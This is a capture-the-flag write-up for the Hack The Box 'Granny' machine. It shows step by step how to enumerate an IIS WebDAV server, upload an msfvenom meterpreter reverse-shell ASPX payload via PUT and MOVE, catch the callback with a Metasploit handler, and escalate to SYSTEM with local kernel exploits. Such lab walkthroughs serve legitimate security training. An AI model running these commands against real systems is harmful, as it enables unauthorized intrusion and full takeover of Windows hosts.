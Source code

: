 ```yaml
---
cover: ../../../../.gitbook/assets/Granny.png
coverY: 252.91733333333332
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Granny

```bash
root@kali> echo '10.10.10.15 granny.htb' | sudo tee -a /etc/hosts
root@kali> nmap -sV -sC -oA granny granny.htb
```

If you did not install gobuster, install it in the `/otp` folder.

```bash
root@kali> cd /opt
root@kali> git clone https://github.com/OJ/gobuster.git
root@kali> cd gobuster
root@kali> make
```

Then run gobuster **in background** to enumerate web hierarchy.

```bash
root@kali> cd /otp/gobuster
root@kali> ./gobuster dir -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -u http://granny.htb -t 20
```

Then run nikto **in background** to enumerate web options.

```bash
root@kali> nikto -url http://granny.htb
```

When the NMap scan is completed, you can see there is a WebDAV server 6.0 running on the the target.

```bash
root@kali> davtest -url http://granny.htb
```

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h37_22.png" alt=""><figcaption></figcaption></figure>

PUT files allowed : `.pl` `.jsp` `.cfm` `.html` `.txt` `.jhtml` `.php`

To grab all requests made with the **davtest** tool, you can create a proxy with **Burp Suite**. To do this, open Burp and go to **Proxy > Options > Proxy Listeners > Add**.

Specify the local port then enter the target IP address and its remote port. Then click on **OK**.

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h43_07.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h43_45 (1).png" alt=""><figcaption></figcaption></figure>

Once you created the proxy, run again the davtest tool and go to **Burp Suite > Proxy > HTTP History**. You will see all requests made with davtest.

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h47_53.png" alt=""><figcaption></figcaption></figure>

Thus you can try to upload an HTML file on the server.

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h41_24.png" alt=""><figcaption></figcaption></figure>

You can now create a payload with **msfvenom**.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=1337 -f aspx
```

Copy/paste the payload instead of the "this is a test" and send the request. The code should be deployed.

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h50_54.png" alt=""><figcaption></figcaption></figure>

Great, but HTML is not executed by the WebDAV server. In Burp, if you try to change the filename "ippsec.html" by "ippsec.aspx", it returns a FORBIDDEN response.

In the NMap output, you can see there is a MOVE method allowed on the target.

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h54_11.png" alt=""><figcaption></figcaption></figure>

Google "HTTP Move" and you will see you must an additionnal Header in your request to move on ressource to another location.

<figure><img src="../../../../.gitbook/assets/2023-09-11_10h56_10.png" alt=""><figcaption></figcaption></figure>

Great, you changed the resource name! Now you can open a multi/handler in msfconsole.

```bash
root@kali> msfconsole
msf6> use exploit/multi/handler
msf6> set lhost 10.10.14.4
msf6> set lport 1337
msf6> set payload windows/meterpreter/reverse_tcp
msf6> run
```

Then execute the following command

```bash
root@kali> curl http://granny.htb/ippsec.aspx
```

You gain the meterpreter! Now you can set it in background and search for the post-exploitation module **suggester**.

```
msf6> use post/multi/recon/local_exploit_suggester
msf6> set session 1
msf6> run
```

Two of the listed modules work.

* exploit/windows/local/ms15\_051\_client\_copy\_image
* exploit/windows/local/ms14\_070\_tcpip\_ioctl

Set the session and run it, you will gain the **NT AUTHORITY\SYSTEM** user.
